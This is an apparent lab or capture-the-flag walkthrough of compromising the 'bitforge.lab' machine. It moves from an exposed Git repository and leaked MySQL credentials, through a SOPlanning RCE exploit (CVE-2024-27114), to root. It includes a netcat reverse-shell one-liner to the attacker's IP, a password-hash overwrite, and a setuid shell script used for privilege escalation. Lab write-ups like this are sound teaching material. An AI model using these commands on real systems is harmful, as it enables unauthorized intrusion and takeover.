Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.232.186
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-24 09:06 IST
Nmap scan report for 192.168.232.186
Host is up (0.27s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
3306/tcp open   mysql
9000/tcp closed cslistener

Nmap done: 1 IP address (1 host up) scanned in 40.08 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,80,3306,9000 192.168.232.186    
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-24 09:09 IST
Nmap scan report for 192.168.232.186
Host is up (0.084s latency).

PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:5a:a9:66:65:3e:d0:b8:9d:a5:16:8c:e8:16:37:e2 (ECDSA)
|_  256 9b:2d:1d:f8:13:74:ce:96:82:4e:19:35:f9:7e:1b:68 (ED25519)
80/tcp   open   http       Apache httpd
| http-git: 
|   192.168.232.186:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: created .env to store the database configuration 
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://bitforge.lab/
3306/tcp open   mysql      MySQL 8.0.40-0ubuntu0.24.04.1
| ssl-cert: Subject: commonName=MySQL_Server_8.0.40_Auto_Generated_Server_Certificate
| Not valid before: 2025-01-15T14:38:11
|_Not valid after:  2035-01-13T14:38:11
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.40-0ubuntu0.24.04.1
|   Thread ID: 17
|   Capabilities flags: 65535
|   Some Capabilities: FoundRows, IgnoreSigpipes, Support41Auth, LongPassword, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, InteractiveClient, LongColumnFlag, SupportsCompression, SupportsTransactions, Speaks41ProtocolNew, ConnectWithDatabase, ODBCClient, IgnoreSpaceBeforeParenthesis, SwitchToSSLAfterHandshake, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: w\x1DM}J2Pj\x14w\x14v]\x053n)`\x07t
|_  Auth Plugin Name: caching_sha2_password
9000/tcp closed cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.60 seconds
```
Visiting web server port 80.

While exploring the homepage, we find that the “EMPLOYEE PLANNING PORTAL” redirects to the subdomain `plan.bitforge.lab`.

To access this subdomain, we need to add it to our `/etc/hosts` file as well.
After accessing the website, we will see the “Simple Online Planning” application, version **1.52.01**.

The current application version has a vulnerability, [CVE-2024–27114](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27114), which is an unauthenticated Remote Code Execution (RCE) found in the SOPlanning online planning tool. An attacker can upload a PHP file that will be available for execution, leading to the execution of code on the underlying system. The vulnerability has been remediated in version **1.52.02**.

While researching online, I discovered an [exploit](https://www.exploit-db.com/exploits/52082) for this vulnerability listed in Exploit-DB. After reviewing the exploit, we notice that it requires valid credentials, indicating that it is an authenticated exploit.

### Git repository enumeration

An earlier Nmap scan revealed the presence of an accessible Git repository. To confirm its existence, I performed directory brute-forcing using Feroxbuster, which successfully identified the exposed repository.
```sh
ffuf -u http://bitforge.lab/FUZZ -w /usr/share/dirb/wordlists/common.txt -e ".txt,.php,.zip" -c -fc 403
```




We can use tool [git-dumper](https://github.com/arthaud/git-dumper), to dump and extract the contents of the exposed Git repository on the attack machine.

We ran git-dumper against the target machine by entering the following command:

git-dumper installation:

```python
python3 -m venv dumper-env
source dumper-env/bin/activate
pip install git-dumper
```

```sh
git-dumper http://bitforge.lab/.git/ website
```


Move to the newly created directory `/website'.


Run the above commands.
```sh
ls -la
git status
```
Then run `git log`. 

Then run `git show eaf6c81951775e4202e40762b3300cc936cf4df1`

From the commit output, we should note:
```sh
Author: McSam Ardayfio, with email: mcsam@bitforge.lab - could be a potential user  
Database name: bitforge_customer_db  
Username: BitForgeAdmin  
Password: B1tForG3S0ftw4r3S0lutions
```
### Database Enumeration

With the retrieved database credentials, I was able to successfully authenticate and gain access to the MySQL database. We can enter on the attack machine the following command, and after, we will be prompted to enter the password to access the database:
```sh
mysql -h 192.168.232.186 -u BitForgeAdmin -p --skip-ssl
OR
mysql -h 192.168.232.186 -u BitForgeAdmin -p --ssl-mode=DISABLED

```


I listed available databases and found the already mentioned database, `bitforge_customer_db`, but indeed, it was empty.

Another potentially valuable database is `soplanning`, which directly relates to the previously discovered vulnerable “Simple Online Planning” web application. To interact with this database, we set it as the active database using the following command:
```sh
use soplanning;
```


Only `planning_user`, among the listed tables, referenced the existence of an `admin` account. Additionally, the table appeared to store authentication-related information, making it a potential target for further enumeration. Extracting data from this table was the right path forward in the exploitation process.

The raw database output was disorganized and difficult to read, so I annotated the provided screenshot/output, mapping each column title to its corresponding values. This helped clarify the structure of the extracted data, making it easier to analyze and identify critical information.
```sh
select * from planning_user;
```


```sh
user_id: ADM  
user_groupe_id: NULL  
nom: admin  
login: admin  
password: 77ba9273d4bcfa9387ae8652377f4C189e5a47ee  
email: NULL
```
I attempted to crack the **SHA-1** hash using various techniques, but despite multiple efforts, I was unable to successfully retrieve the plaintext password.

At this point, I was stuck for quite some time. To find a new attack vector, I searched the web for information about the SOPlanning application. During my research, I discovered its source code on [GitHub](https://github.com/Worteks/soplanning.git) and began analyzing it for clues. I cloned the repository to attack machine and started reviewing the files.

After discovering the `soplanning/includes/demo-data.inc` file, I assumed it contained initial database entries used during the application’s setup. Reviewing its contents, I found mentioining in the file `soplanning/templates/da.txt`that the default credentials are `admin:admin`, and its corresponding SHA-1 hash is:

`df5b909019c9b1659e86e0d6bf8da81d6fa3499e`

This led me to explore the possibility that the application might still accept the default hash if I manually replaced the existing password hash in the MySQL database with the default one. By doing so, I could potentially authenticate as the admin and gain access to the application.
We can clone the SOPlanning repository using the following command:

`git clone https://github.com/Worteks/soplanning.git`

Once cloned, we can open and read the `demo_data.inc` file using:
`nano soplanning/includes/demo_data.inc`


No need to do this we can simply copy the hash from web and check it.

With this information in hand, I crafted the following SQL command to update the password hash. You can execute the following command to apply the update:
```sh
UPDATE planning_user SET password='df5b909019c9b1659e86e0d6bf8da81d6fa3499e' WHERE user_id='ADM';
```

After I navigated to the SOPlanning login page, ``[http://plan.bitforge.lab](http://plan.bitforge.lab`/)``, entered the credentials `admin:admin`, and — boom! I was in. You’re in. We’re all in! The login worked like magic!


Once downloaded, we can execute the exploit by providing the necessary values:
```sh
python3 52082.py -t http://plan.bitforge.lab/www -u admin -p admin
```
In the screenshot above, we can see that the exploit prompts us to choose whether we want an interactive shell. I opted for this choice and authenticated into the system as user `www-data`. Afterward, I initiated a full interactive shell with the following command:

In the screenshot above, we can see that the exploit prompts us to choose whether we want an interactive shell. I opted for this choice and authenticated into the system as user `www-data`. Afterward, I initiated a full interactive shell with the following command:
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.171 3306 >/tmp/f
```


## Privilege Escalation

### User Jack

I began manual enumeration on the target machine and discovered a user named Jack. This finding suggested a potential local privilege escalation vector, as user accounts often have associated credentials, SSH keys, scheduled automation tasks such as CRON jobs, or misconfigured permissions that could be exploited to gain further access.

Before uploading and running LinPEAS, I decided to check the target machine for potential cron jobs or automated tasks, assuming that the user or processes running under this user might be executing scheduled scripts or commands that could aid in privilege escalation.

To assist with this analysis, I uploaded [pspy64](https://github.com/DominicBreuker/pspy) to the target machine. For the upload, I used a Python web server, but other file transfer methods can also be used depending on the situation.
```sh
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64 
```



After a few minutes, I started receiving output from pspy64 and managed to capture Jack’s password. The logs indicated that Jack was running a MySQL database backup, during which the credentials were exposed in the process execution. This provided a clear opportunity to escalate privileges by switching to Jack’s user account.

`-u jack -pj4cKF0rg3@445 soplanning`

### Path to Root

With the newly discovered credentials, I was able to SSH into the target as user Jack and found a local flag under his home directory:


We have become `jack` at last, so we check `sudo -l` to see if we can run something as `root`. And lo and behold, we are allowed to execute `/usr/bin/flask_password_changer`.

Looking at the script in that path, we see it’s basically a small bash file that starts a Flask server from `/opt/password_change_app`. Because we have write permissions to `/opt/password_change_app/app.py`, we can effectively introduce a malicious script that grants us a `root` shell. We replace `app.py` with:



Malicious script
```python
import os 
os.setuid(0) 
os.system("/bin/bash -p")
```
## 🔍 Line-by-line explanation

### ✅ `import os`

Loads Python’s OS module so the script can interact with the operating system.
### ✅ `os.setuid(0)`

This is the critical line.

- `setuid()` changes the **effective user ID (EUID)** of the process.
- `0` is the UID for **root**.

👉 If the script runs with sufficient privileges (e.g., via SUID root binary), this line makes the process run as **root**.

⚠️ If you run this normally as a low-privileged user, it will fail.
### ✅ `os.system("/bin/bash -p")`

This launches a bash shell.
The `-p` flag is VERY important:

- preserves effective UID
- prevents bash from dropping privileges
- keeps root privileges intact

Without `-p`, bash may drop privileges for safety.

### Why this works in privilege escalation
This works when:
✔ Python interpreter has SUID bit  
✔ Script is executed by a root-owned SUID binary  
✔ Python runs with elevated EUID  
✔ Writable script executed by root cron job  
✔ sudo allows python execution


Then we run:
```sh
sudo /usr/bin/flask_password_changer
```


\
